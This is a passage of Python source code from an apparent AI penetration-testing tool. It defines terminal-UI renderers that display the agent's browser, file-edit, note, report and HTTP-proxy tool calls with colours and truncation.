class BaseToolRenderer(ABC):
    tool_name: ClassVar[str] = ""
    css_classes: ClassVar[list[str]] = ["tool-call"]

    @classmethod
    @abstractmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        pass

    @classmethod
    def build_text(cls, tool_data: dict[str, Any]) -> Text:  # noqa: ARG003
        return Text()

    @classmethod
    def create_static(cls, content: Text, status: str) -> Static:
        css_classes = cls.get_css_classes(status)
        return Static(content, classes=css_classes)

    @classmethod
    def status_icon(cls, status: str) -> tuple[str, str]:
        icons = {
            "running": ("● In progress...", "#f59e0b"),
            "completed": ("✓ Done", "#22c55e"),
            "failed": ("✗ Failed", "#dc2626"),
            "error": ("✗ Error", "#dc2626"),
        }
        return icons.get(status, ("○ Unknown", "dim"))

    @classmethod
    def get_css_classes(cls, status: str) -> str:
        base_classes = cls.css_classes.copy()
        base_classes.append(f"status-{status}")
        return " ".join(base_classes)

    @classmethod
    def text_with_style(cls, content: str, style: str | None = None) -> Text:
        text = Text()
        text.append(content, style=style)
        return text

    @classmethod
    def text_icon_label(
        cls,
        icon: str,
        label: str,
        icon_style: str | None = None,
        label_style: str | None = None,
    ) -> Text:
        text = Text()
        text.append(icon, style=icon_style)
        text.append(" ")
        text.append(label, style=label_style)
        return text

    @classmethod
    def text_header(
        cls,
        icon: str,
        title: str,
        subtitle: str = "",
        title_style: str = "bold",
        subtitle_style: str = "dim",
    ) -> Text:
        text = Text()
        text.append(icon)
        text.append(" ")
        text.append(title, style=title_style)
        if subtitle:
            text.append(" ")
            text.append(subtitle, style=subtitle_style)
        return text

    @classmethod
    def text_key_value(
        cls,
        key: str,
        value: str,
        key_style: str = "dim",
        value_style: str | None = None,
        indent: int = 2,
    ) -> Text:
        text = Text()
        text.append(" " * indent)
        text.append(key, style=key_style)
        text.append(": ")
        text.append(value, style=value_style)
        return text
```

## File: `strix/interface/tool_components/browser_renderer.py`
```python
from functools import cache
from typing import Any, ClassVar

from pygments.lexers import get_lexer_by_name
from pygments.styles import get_style_by_name
from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@cache
def _get_style_colors() -> dict[Any, str]:
    style = get_style_by_name("native")
    return {token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]}


@register_tool_renderer
class BrowserRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "browser_action"
    css_classes: ClassVar[list[str]] = ["tool-call", "browser-tool"]

    SIMPLE_ACTIONS: ClassVar[dict[str, str]] = {
        "back": "going back in browser history",
        "forward": "going forward in browser history",
        "scroll_down": "scrolling down",
        "scroll_up": "scrolling up",
        "refresh": "refreshing browser tab",
        "close_tab": "closing browser tab",
        "switch_tab": "switching browser tab",
        "list_tabs": "listing browser tabs",
        "view_source": "viewing page source",
        "get_console_logs": "getting console logs",
        "screenshot": "taking screenshot of browser tab",
        "wait": "waiting...",
        "close": "closing browser",
    }

    @classmethod
    def _get_token_color(cls, token_type: Any) -> str | None:
        colors = _get_style_colors()
        while token_type:
            if token_type in colors:
                return colors[token_type]
            token_type = token_type.parent
        return None

    @classmethod
    def _highlight_js(cls, code: str) -> Text:
        lexer = get_lexer_by_name("javascript")
        text = Text()

        for token_type, token_value in lexer.get_tokens(code):
            if not token_value:
                continue
            color = cls._get_token_color(token_type)
            text.append(token_value, style=color)

        return text

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")

        action = args.get("action", "")
        content = cls._build_content(action, args)

        css_classes = cls.get_css_classes(status)
        return Static(content, classes=css_classes)

    @classmethod
    def _build_url_action(cls, text: Text, label: str, url: str | None, suffix: str = "") -> None:
        text.append(label, style="#06b6d4")
        if url:
            text.append(url, style="#06b6d4")
            if suffix:
                text.append(suffix, style="#06b6d4")

    @classmethod
    def _build_content(cls, action: str, args: dict[str, Any]) -> Text:
        text = Text()
        text.append("🌐 ")

        if action in cls.SIMPLE_ACTIONS:
            text.append(cls.SIMPLE_ACTIONS[action], style="#06b6d4")
            return text

        url = args.get("url")

        url_actions = {
            "launch": ("launching ", " on browser" if url else "browser"),
            "goto": ("navigating to ", ""),
            "new_tab": ("opening tab ", ""),
        }
        if action in url_actions:
            label, suffix = url_actions[action]
            if action == "launch" and not url:
                text.append("launching browser", style="#06b6d4")
            else:
                cls._build_url_action(text, label, url, suffix)
            return text

        click_actions = {
            "click": "clicking",
            "double_click": "double clicking",
            "hover": "hovering",
        }
        if action in click_actions:
            text.append(click_actions[action], style="#06b6d4")
            return text

        handlers: dict[str, tuple[str, str | None]] = {
            "type": ("typing ", args.get("text")),
            "press_key": ("pressing key ", args.get("key")),
            "save_pdf": ("saving PDF to ", args.get("file_path")),
        }
        if action in handlers:
            label, value = handlers[action]
            text.append(label, style="#06b6d4")
            if value:
                text.append(str(value), style="#06b6d4")
            return text

        if action == "execute_js":
            text.append("executing javascript", style="#06b6d4")
            js_code = args.get("js_code")
            if js_code:
                text.append("\n")
                text.append_text(cls._highlight_js(js_code))
            return text

        if action:
            text.append(action, style="#06b6d4")
        return text
```

## File: `strix/interface/tool_components/file_edit_renderer.py`
```python
from functools import cache
from typing import Any, ClassVar

from pygments.lexers import get_lexer_by_name, get_lexer_for_filename
from pygments.styles import get_style_by_name
from pygments.util import ClassNotFound
from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@cache
def _get_style_colors() -> dict[Any, str]:
    style = get_style_by_name("native")
    return {token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]}


def _get_lexer_for_file(path: str) -> Any:
    try:
        return get_lexer_for_filename(path)
    except ClassNotFound:
        return get_lexer_by_name("text")


@register_tool_renderer
class StrReplaceEditorRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "str_replace_editor"
    css_classes: ClassVar[list[str]] = ["tool-call", "file-edit-tool"]

    @classmethod
    def _get_token_color(cls, token_type: Any) -> str | None:
        colors = _get_style_colors()
        while token_type:
            if token_type in colors:
                return colors[token_type]
            token_type = token_type.parent
        return None

    @classmethod
    def _highlight_code(cls, code: str, path: str) -> Text:
        lexer = _get_lexer_for_file(path)
        text = Text()

        for token_type, token_value in lexer.get_tokens(code):
            if not token_value:
                continue
            color = cls._get_token_color(token_type)
            text.append(token_value, style=color)

        return text

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        result = tool_data.get("result")

        command = args.get("command", "")
        path = args.get("path", "")
        old_str = args.get("old_str", "")
        new_str = args.get("new_str", "")
        file_text = args.get("file_text", "")

        text = Text()

        icons_and_labels = {
            "view": ("◇ ", "read", "#10b981"),
            "str_replace": ("◇ ", "edit", "#10b981"),
            "create": ("◇ ", "create", "#10b981"),
            "insert": ("◇ ", "insert", "#10b981"),
            "undo_edit": ("◇ ", "undo", "#10b981"),
        }

        icon, label, color = icons_and_labels.get(command, ("◇ ", "file", "#10b981"))
        text.append(icon, style=color)
        text.append(label, style="dim")

        if path:
            path_display = path[-60:] if len(path) > 60 else path
            text.append(" ")
            text.append(path_display, style="dim")

        if command == "str_replace" and (old_str or new_str):
            if old_str:
                highlighted_old = cls._highlight_code(old_str, path)
                for line in highlighted_old.plain.split("\n"):
                    text.append("\n")
                    text.append("-", style="#ef4444")
                    text.append(" ")
                    text.append(line)

            if new_str:
                highlighted_new = cls._highlight_code(new_str, path)
                for line in highlighted_new.plain.split("\n"):
                    text.append("\n")
                    text.append("+", style="#22c55e")
                    text.append(" ")
                    text.append(line)

        elif command == "create" and file_text:
            text.append("\n")
            text.append_text(cls._highlight_code(file_text, path))

        elif command == "insert" and new_str:
            highlighted_new = cls._highlight_code(new_str, path)
            for line in highlighted_new.plain.split("\n"):
                text.append("\n")
                text.append("+", style="#22c55e")
                text.append(" ")
                text.append(line)

        elif isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif not (result and isinstance(result, dict) and "content" in result) and not path:
            text.append(" ")
            text.append("Processing...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class ListFilesRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "list_files"
    css_classes: ClassVar[list[str]] = ["tool-call", "file-edit-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        path = args.get("path", "")

        text = Text()
        text.append("◇ ", style="#10b981")
        text.append("list", style="dim")
        text.append(" ")

        if path:
            path_display = path[-60:] if len(path) > 60 else path
            text.append(path_display, style="dim")
        else:
            text.append("Current directory", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class SearchFilesRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "search_files"
    css_classes: ClassVar[list[str]] = ["tool-call", "file-edit-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        path = args.get("path", "")
        regex = args.get("regex", "")

        text = Text()
        text.append("◇ ", style="#a855f7")
        text.append("search", style="dim")
        text.append("  ")

        if path and regex:
            text.append(path, style="dim")
            text.append(" ", style="dim")
            text.append(regex, style="#a855f7")
        elif path:
            text.append(path, style="dim")
        elif regex:
            text.append(regex, style="#a855f7")
        else:
            text.append("...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/finish_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


FIELD_STYLE = "bold #4ade80"


@register_tool_renderer
class FinishScanRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "finish_scan"
    css_classes: ClassVar[list[str]] = ["tool-call", "finish-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})

        executive_summary = args.get("executive_summary", "")
        methodology = args.get("methodology", "")
        technical_analysis = args.get("technical_analysis", "")
        recommendations = args.get("recommendations", "")

        text = Text()
        text.append("◆ ", style="#22c55e")
        text.append("Penetration test completed", style="bold #22c55e")

        if executive_summary:
            text.append("\n\n")
            text.append("Executive Summary", style=FIELD_STYLE)
            text.append("\n")
            text.append(executive_summary)

        if methodology:
            text.append("\n\n")
            text.append("Methodology", style=FIELD_STYLE)
            text.append("\n")
            text.append(methodology)

        if technical_analysis:
            text.append("\n\n")
            text.append("Technical Analysis", style=FIELD_STYLE)
            text.append("\n")
            text.append(technical_analysis)

        if recommendations:
            text.append("\n\n")
            text.append("Recommendations", style=FIELD_STYLE)
            text.append("\n")
            text.append(recommendations)

        if not (executive_summary or methodology or technical_analysis or recommendations):
            text.append("\n  ")
            text.append("Generating final report...", style="dim")

        padded = Text()
        padded.append("\n\n")
        padded.append_text(text)
        padded.append("\n\n")

        css_classes = cls.get_css_classes("completed")
        return Static(padded, classes=css_classes)
```

## File: `strix/interface/tool_components/notes_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@register_tool_renderer
class CreateNoteRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "create_note"
    css_classes: ClassVar[list[str]] = ["tool-call", "notes-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})

        title = args.get("title", "")
        content = args.get("content", "")
        category = args.get("category", "general")

        text = Text()
        text.append("◇ ", style="#fbbf24")
        text.append("note", style="dim")
        text.append(" ")
        text.append(f"({category})", style="dim")

        if title:
            text.append("\n  ")
            text.append(title.strip())

        if content:
            text.append("\n  ")
            text.append(content.strip(), style="dim")

        if not title and not content:
            text.append("\n  ")
            text.append("Capturing...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class DeleteNoteRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "delete_note"
    css_classes: ClassVar[list[str]] = ["tool-call", "notes-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: ARG003
        text = Text()
        text.append("◇ ", style="#fbbf24")
        text.append("note removed", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class UpdateNoteRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "update_note"
    css_classes: ClassVar[list[str]] = ["tool-call", "notes-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})

        title = args.get("title")
        content = args.get("content")

        text = Text()
        text.append("◇ ", style="#fbbf24")
        text.append("note updated", style="dim")

        if title:
            text.append("\n  ")
            text.append(title)

        if content:
            text.append("\n  ")
            text.append(content.strip(), style="dim")

        if not title and not content:
            text.append("\n  ")
            text.append("Updating...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class ListNotesRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "list_notes"
    css_classes: ClassVar[list[str]] = ["tool-call", "notes-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("◇ ", style="#fbbf24")
        text.append("notes", style="dim")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict) and result.get("success"):
            count = result.get("total_count", 0)
            notes = result.get("notes", []) or []

            if count == 0:
                text.append("\n  ")
                text.append("No notes", style="dim")
            else:
                for note in notes:
                    title = note.get("title", "").strip() or "(untitled)"
                    category = note.get("category", "general")
                    note_content = note.get("content", "").strip()

                    text.append("\n  - ")
                    text.append(title)
                    text.append(f" ({category})", style="dim")

                    if note_content:
                        text.append("\n    ")
                        text.append(note_content, style="dim")
        else:
            text.append("\n  ")
            text.append("Loading...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/proxy_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


PROXY_ICON = "<~>"
MAX_REQUESTS_DISPLAY = 20
MAX_LINE_LENGTH = 200


def _truncate(text: str, max_len: int = 80) -> str:
    return text[: max_len - 3] + "..." if len(text) > max_len else text


def _sanitize(text: str, max_len: int = 150) -> str:
    """Remove newlines and truncate text."""
    clean = text.replace("\n", " ").replace("\r", "").replace("\t", " ")
    return _truncate(clean, max_len)


def _status_style(code: int | None) -> str:
    if code is None:
        return "dim"
    if 200 <= code < 300:
        return "#22c55e"  # green
    if 300 <= code < 400:
        return "#eab308"  # yellow
    if 400 <= code < 500:
        return "#f97316"  # orange
    if code >= 500:
        return "#ef4444"  # red
    return "dim"


@register_tool_renderer
class ListRequestsRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "list_requests"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912  # noqa: PLR0912
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        httpql_filter = args.get("httpql_filter")
        sort_by = args.get("sort_by")
        sort_order = args.get("sort_order")
        scope_id = args.get("scope_id")

        text = Text()
        text.append(PROXY_ICON, style="dim")
        text.append(" listing requests", style="#06b6d4")

        if httpql_filter:
            text.append(f"  where {_truncate(httpql_filter, 150)}", style="dim italic")

        meta_parts = []
        if sort_by and sort_by != "timestamp":
            meta_parts.append(f"by:{sort_by}")
        if sort_order and sort_order != "desc":
            meta_parts.append(sort_order)
        if scope_id and isinstance(scope_id, str):
            meta_parts.append(f"scope:{scope_id[:8]}")
        if meta_parts:
            text.append(f"  ({', '.join(meta_parts)})", style="dim")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            else:
                total = result.get("total_count", 0)
                requests = result.get("requests", [])

                text.append(f"  [{total} found]", style="dim")

                if requests and isinstance(requests, list):
                    text.append("\n")
                    for i, req in enumerate(requests[:MAX_REQUESTS_DISPLAY]):
                        if not isinstance(req, dict):
                            continue
                        method = req.get("method", "?")
                        host = req.get("host", "")
                        path = req.get("path", "/")
                        resp = req.get("response") or {}
                        code = resp.get("statusCode") if isinstance(resp, dict) else None

                        text.append("  ")
                        text.append(f"{method:6}", style="#a78bfa")
                        text.append(f" {_truncate(host + path, 180)}", style="dim")
                        if code:
                            text.append(f" {code}", style=_status_style(code))

                        if i < min(len(requests), MAX_REQUESTS_DISPLAY) - 1:
                            text.append("\n")

                    if len(requests) > MAX_REQUESTS_DISPLAY:
                        text.append("\n")
                        text.append(
                            f"  ... +{len(requests) - MAX_REQUESTS_DISPLAY} more",
                            style="dim italic",
                        )

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class ViewRequestRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "view_request"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912, PLR0915
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        request_id = args.get("request_id", "")
        part = args.get("part", "request")
        search_pattern = args.get("search_pattern")

        text = Text()
        text.append(PROXY_ICON, style="dim")

        action = "searching" if search_pattern else "viewing"
        text.append(f" {action} {part}", style="#06b6d4")

        if request_id:
            text.append(f" #{request_id}", style="dim")

        if search_pattern:
            text.append(f"  /{_truncate(search_pattern, 100)}/", style="dim italic")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            elif "matches" in result:
                matches = result.get("matches", [])
                total = result.get("total_matches", len(matches))
                text.append(f"  [{total} matches]", style="dim")

                if matches and isinstance(matches, list):
                    text.append("\n")
                    for i, m in enumerate(matches[:5]):
                        if not isinstance(m, dict):
                            continue
                        before = m.get("before", "") or ""
                        match_text = m.get("match", "") or ""
                        after = m.get("after", "") or ""

                        before = before.replace("\n", " ").replace("\r", "")[-100:]
                        after = after.replace("\n", " ").replace("\r", "")[:100]

                        text.append("  ")

                        if before:
                            text.append(f"...{before}", style="dim")
                        text.append(match_text, style="#22c55e bold")
                        if after:
                            text.append(f"{after}...", style="dim")

                        if i < min(len(matches), 5) - 1:
                            text.append("\n")

                    if len(matches) > 5:
                        text.append("\n")
                        text.append(f"  ... +{len(matches) - 5} more matches", style="dim italic")

            elif "content" in result:
                showing = result.get("showing_lines", "")
                has_more = result.get("has_more", False)
                content = result.get("content", "")

                text.append(f"  [{showing}]", style="dim")

                if content and isinstance(content, str):
                    lines = content.split("\n")[:15]
                    text.append("\n")
                    for i, line in enumerate(lines):
                        text.append("  ")
                        text.append(_truncate(line, MAX_LINE_LENGTH), style="dim")
                        if i < len(lines) - 1:
                            text.append("\n")

                    if has_more or len(lines) > 15:
                        text.append("\n")
                        text.append("  ... more content available", style="dim italic")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class SendRequestRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "send_request"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912, PLR0915
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        method = args.get("method", "GET")
        url = args.get("url", "")
        req_headers = args.get("headers")
        req_body = args.get("body", "")

        text = Text()
        text.append(PROXY_ICON, style="dim")
        text.append(" sending request", style="#06b6d4")

        text.append("\n")
        text.append("  >> ", style="#3b82f6")
        text.append(method, style="#a78bfa")
        text.append(f" {_truncate(url, 180)}", style="dim")

        if req_headers and isinstance(req_headers, dict):
            for k, v in list(req_headers.items())[:5]:
                text.append("\n")
                text.append("  >> ", style="#3b82f6")
                text.append(f"{k}: ", style="dim")
                text.append(_sanitize(str(v), 150), style="dim")

        if req_body and isinstance(req_body, str):
            text.append("\n")
            text.append("  >> ", style="#3b82f6")
            body_lines = req_body.split("\n")[:4]
            for i, line in enumerate(body_lines):
                if i > 0:
                    text.append("\n")
                    text.append("     ", style="dim")
                text.append(_truncate(line, MAX_LINE_LENGTH), style="dim")
            if len(req_body.split("\n")) > 4:
                text.append(" ...", style="dim italic")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"\n  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            else:
                code = result.get("status_code")
                time_ms = result.get("response_time_ms")

                text.append("\n")
                text.append("  << ", style="#22c55e")
                if code:
                    text.append(f"{code}", style=_status_style(code))
                if time_ms:
                    text.append(f" ({time_ms}ms)", style="dim")

                body = result.get("body", "")
                if body and isinstance(body, str):
                    lines = body.split("\n")[:6]
                    for line in lines:
                        text.append("\n")
                        text.append("  << ", style="#22c55e")
                        text.append(_truncate(line, MAX_LINE_LENGTH - 5), style="dim")

                    if len(body.split("\n")) > 6:
                        text.append("\n")
                        text.append("  ...", style="dim italic")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class RepeatRequestRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "repeat_request"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912, PLR0915
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        request_id = args.get("request_id", "")
        modifications = args.get("modifications")

        text = Text()
        text.append(PROXY_ICON, style="dim")
        text.append(" repeating request", style="#06b6d4")

        if request_id:
            text.append(f" #{request_id}", style="dim")

        if modifications and isinstance(modifications, dict):
            text.append("\n  modifications:", style="dim italic")

            if "url" in modifications:
                text.append("\n")
                text.append("  >> ", style="#3b82f6")
                text.append(f"url: {_truncate(str(modifications['url']), 180)}", style="dim")

            if "headers" in modifications and isinstance(modifications["headers"], dict):
                for k, v in list(modifications["headers"].items())[:5]:
                    text.append("\n")
                    text.append("  >> ", style="#3b82f6")
                    text.append(f"{k}: {_sanitize(str(v), 150)}", style="dim")

            if "cookies" in modifications and isinstance(modifications["cookies"], dict):
                for k, v in list(modifications["cookies"].items())[:5]:
                    text.append("\n")
                    text.append("  >> ", style="#3b82f6")
                    text.append(f"cookie {k}={_sanitize(str(v), 100)}", style="dim")

            if "params" in modifications and isinstance(modifications["params"], dict):
                for k, v in list(modifications["params"].items())[:5]:
                    text.append("\n")
                    text.append("  >> ", style="#3b82f6")
                    text.append(f"param {k}={_sanitize(str(v), 100)}", style="dim")

            if "body" in modifications and isinstance(modifications["body"], str):
                text.append("\n")
                text.append("  >> ", style="#3b82f6")
                body_lines = modifications["body"].split("\n")[:4]
                for i, line in enumerate(body_lines):
                    if i > 0:
                        text.append("\n")
                        text.append("     ", style="dim")
                    text.append(_truncate(line, MAX_LINE_LENGTH), style="dim")
                if len(modifications["body"].split("\n")) > 4:
                    text.append(" ...", style="dim italic")

        elif modifications and isinstance(modifications, str):
            text.append(f"\n  {_truncate(modifications, 200)}", style="dim italic")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"\n  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            else:
                req = result.get("request", {})
                method = req.get("method", "")
                url = req.get("url", "")
                code = result.get("status_code")
                time_ms = result.get("response_time_ms")

                text.append("\n")
                text.append("  >> ", style="#3b82f6")
                if method:
                    text.append(f"{method} ", style="#a78bfa")
                if url:
                    text.append(_truncate(url, 180), style="dim")

                text.append("\n")
                text.append("  << ", style="#22c55e")
                if code:
                    text.append(f"{code}", style=_status_style(code))
                if time_ms:
                    text.append(f" ({time_ms}ms)", style="dim")

                body = result.get("body", "")
                if body and isinstance(body, str):
                    lines = body.split("\n")[:5]
                    for line in lines:
                        text.append("\n")
                        text.append("  << ", style="#22c55e")
                        text.append(_truncate(line, MAX_LINE_LENGTH - 5), style="dim")

                    if len(body.split("\n")) > 5:
                        text.append("\n")
                        text.append("  ...", style="dim italic")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class ScopeRulesRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "scope_rules"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912, PLR0915
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        action = args.get("action", "")
        scope_name = args.get("scope_name", "")
        scope_id = args.get("scope_id", "")
        allowlist = args.get("allowlist")
        denylist = args.get("denylist")

        text = Text()
        text.append(PROXY_ICON, style="dim")

        action_map = {
            "get": "getting",
            "list": "listing",
            "create": "creating",
            "update": "updating",
            "delete": "deleting",
        }
        action_text = action_map.get(action, action + "ing" if action else "managing")
        text.append(f" {action_text} proxy scope", style="#06b6d4")

        if scope_name:
            text.append(f" '{_truncate(scope_name, 50)}'", style="dim italic")
        if scope_id and isinstance(scope_id, str):
            text.append(f" #{scope_id[:8]}", style="dim")

        if allowlist and isinstance(allowlist, list):
            allow_str = ", ".join(_truncate(str(a), 40) for a in allowlist[:4])
            text.append(f"\n  allow: {allow_str}", style="dim")
            if len(allowlist) > 4:
                text.append(f" +{len(allowlist) - 4}", style="dim italic")
        if denylist and isinstance(denylist, list):
            deny_str = ", ".join(_truncate(str(d), 40) for d in denylist[:4])
            text.append(f"\n  deny: {deny_str}", style="dim")
            if len(denylist) > 4:
                text.append(f" +{len(denylist) - 4}", style="dim italic")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            elif "scopes" in result:
                scopes = result.get("scopes", [])
                text.append(f"  [{len(scopes)} scopes]", style="dim")

                if scopes and isinstance(scopes, list):
                    text.append("\n")
                    for i, scope in enumerate(scopes[:5]):
                        if not isinstance(scope, dict):
                            continue
                        name = scope.get("name", "?")
                        allow = scope.get("allowlist") or []
                        text.append("  ")
                        text.append(_truncate(str(name), 40), style="#22c55e")
                        if allow and isinstance(allow, list):
                            allow_str = ", ".join(_truncate(str(a), 30) for a in allow[:3])
                            text.append(f"  {allow_str}", style="dim")
                            if len(allow) > 3:
                                text.append(f" +{len(allow) - 3}", style="dim italic")
                        if i < min(len(scopes), 5) - 1:
                            text.append("\n")

            elif "scope" in result:
                scope = result.get("scope") or {}
                if isinstance(scope, dict):
                    allow = scope.get("allowlist") or []
                    deny = scope.get("denylist") or []

                    if allow and isinstance(allow, list):
                        allow_str = ", ".join(_truncate(str(a), 40) for a in allow[:5])
                        text.append(f"\n  allow: {allow_str}", style="dim")
                    if deny and isinstance(deny, list):
                        deny_str = ", ".join(_truncate(str(d), 40) for d in deny[:5])
                        text.append(f"\n  deny: {deny_str}", style="dim")

            elif "message" in result:
                text.append(f"  {result['message']}", style="#22c55e")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class ListSitemapRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "list_sitemap"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912, PLR0915
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        parent_id = args.get("parent_id")
        scope_id = args.get("scope_id")
        depth = args.get("depth")

        text = Text()
        text.append(PROXY_ICON, style="dim")
        text.append(" listing sitemap", style="#06b6d4")

        if parent_id:
            text.append(f"  under #{_truncate(str(parent_id), 20)}", style="dim")

        meta_parts = []
        if scope_id and isinstance(scope_id, str):
            meta_parts.append(f"scope:{scope_id[:8]}")
        if depth and depth != "DIRECT":
            meta_parts.append(depth.lower())
        if meta_parts:
            text.append(f"  ({', '.join(meta_parts)})", style="dim")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            else:
                total = result.get("total_count", 0)
                entries = result.get("entries", [])

                text.append(f"  [{total} entries]", style="dim")

                if entries and isinstance(entries, list):
                    text.append("\n")
                    for i, entry in enumerate(entries[:MAX_REQUESTS_DISPLAY]):
                        if not isinstance(entry, dict):
                            continue
                        kind = entry.get("kind") or "?"
                        label = entry.get("label") or "?"
                        has_children = entry.get("hasDescendants", False)
                        req = entry.get("request") or {}

                        kind_style = {
                            "DOMAIN": "#f59e0b",
                            "DIRECTORY": "#3b82f6",
                            "REQUEST": "#22c55e",
                        }.get(kind, "dim")

                        text.append("  ")
                        kind_abbr = kind[:3] if isinstance(kind, str) else "?"
                        text.append(f"{kind_abbr:3}", style=kind_style)
                        text.append(f" {_truncate(label, 150)}", style="dim")

                        if req:
                            method = req.get("method", "")
                            code = req.get("status")
                            if method:
                                text.append(f" {method}", style="#a78bfa")
                            if code:
                                text.append(f" {code}", style=_status_style(code))

                        if has_children:
                            text.append(" +", style="dim italic")

                        if i < min(len(entries), MAX_REQUESTS_DISPLAY) - 1:
                            text.append("\n")

                    if len(entries) > MAX_REQUESTS_DISPLAY:
                        text.append("\n")
                        text.append(
                            f"  ... +{len(entries) - MAX_REQUESTS_DISPLAY} more", style="dim italic"
                        )

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class ViewSitemapEntryRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "view_sitemap_entry"
    css_classes: ClassVar[list[str]] = ["tool-call", "proxy-tool"]

    @classmethod
